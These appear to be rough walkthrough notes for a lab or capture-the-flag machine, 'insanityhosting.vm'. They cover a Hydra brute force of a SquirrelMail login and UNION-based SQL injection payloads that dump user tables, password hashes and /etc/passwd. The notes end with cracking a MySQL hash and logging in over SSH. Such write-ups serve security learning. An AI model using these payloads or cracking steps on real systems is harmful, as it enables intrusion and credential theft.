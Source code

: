 -  hydra \-l otis \-P /usr/share/wordlists/rockyou\.txt "http\-post\-form://[www.insanityhosting.vm/webmail/src/redirect.php:login_username=](#http://www.insanityhosting.vm/webmail/src/redirect.php:login_username=)
^USER^\&secretkey=^PASS^\&js\_autodetect\_results=1\&just\_logged\_in=1:Unknown user or password incorrect\." \(add insantiyhosting to /etc/hosts\)

-  searchsploit squirrelmail
-  searchsploit \-m 41910 \(CVE\-2017\-7692\)

kept performing SQL injection until

a6" UNION SELECT
group\_concat\(id\),group\_concat\(username\),group\_concat\(password\),group\_concat\(email\)
FROM monitoring\.users \-\- \-

"1,2,3",
"admin,nicholas,otis",
"$2y$12$huPSQmbcMvgHDkWIMnk9t\.1cLoBWue3dtHf9E5cKUNcfKTOOp8cma
$2y$12$4R6JiYMbJ7NKnuQEoQW4ruIcuRJtDRukH\.Tvx52RkUfx5eloIw7Qe,
$2y$12$\./XCeHl0/TCPW5zN/E9w0ecUUKbDomwjQ0yZqGz5tgASgZg6SIHFW",

"[admin@insanityhosting.vm](#http://192.168.0.203/webmail/src/compose.php?send_to=admin%40insanityhosting.vm)
,[nicholas@insanityhosting.vm](#http://192.168.0.203/webmail/src/compose.php?send_to=nicholas%40insanityhosting.vm)
,[otis@insanityhosting.vm](#http://192.168.0.203/webmail/src/compose.php?send_to=otis%40insanityhosting.vm)
"

-  a" UNION SELECT group\_concat\(schema\_name\),2,3,4 FROM information\_schema\.schemata \-\-
-  a" UNION SELECT group\_concat\(table\_name\),2,3,4 FROM information\_schema\.tables where table\_schema='monitoring' \-\- \- 
-  a" UNION SELECT group\_concat\(column\_name\),2,3,4 FROM information\_schema\.columns where table\_name = 'users' \-\- \-
-  a" UNION SELECT group\_concat\(id\),group\_concat\(username\),group\_concat\(password\),group\_concat\(email\) FROM monitoring\.users \-\- \-
-  a" UNION SELECT LOAD\_FILE\('/etc/passwd'\),2,3,4 as result \-\- \-


root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd\-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege\-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
saslauth:x:997:76:Saslauthd user:/run/saslauthd:/sbin/nologin
dovecot:x:97:97:Dovecot IMAP server:/usr/libexec/dovecot:/sbin/nologin
dovenull:x:996:994:Dovecot's unauthorized user:/usr/libexec/dovecot:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
otis:x:1001:1001::/home/otis:/sbin/nologin
nicholas:x:1002:1002::/home/nicholas:/bin/bash
elliot:x:1003:1003::/home/elliot:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd
daemon:/dev/null:/sbin/nologin
dockerroot:x:995:993:Docker User:/var/lib/docker:/sbin/nologin
monitor:x:1004:1004::/home/monitor:/bin/bash



-  a" UNION SELECT
group\_concat\(Host\),group\_concat\(User\),group\_concat\(Password\),group\_concat\(authentication\_string\)
FROM mysql\.user \-\- \-

"localhost,insanityhosting\.vm,127\.0\.0\.1,::1,localhost,insanityhosting\.vm,%",
"root,root,root,root,,,elliot",
"\*CDA244FF510B063DA17DFF84FF39BA0849F7920F,
\*CDA244FF510B063DA17DFF84FF39BA0849F7920F,
\*CDA244FF510B063DA17DFF84FF39BA0849F7920F,
\*CDA244FF510B063DA17DFF84FF39BA0849F7920F,,,",
",,,,,,\*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9"

-  john \-\-wordlist=/usr/share/wordlists/rockyou\.txt elliott\.hash
-  elliot123        \(?\) 
-  ssh as elliot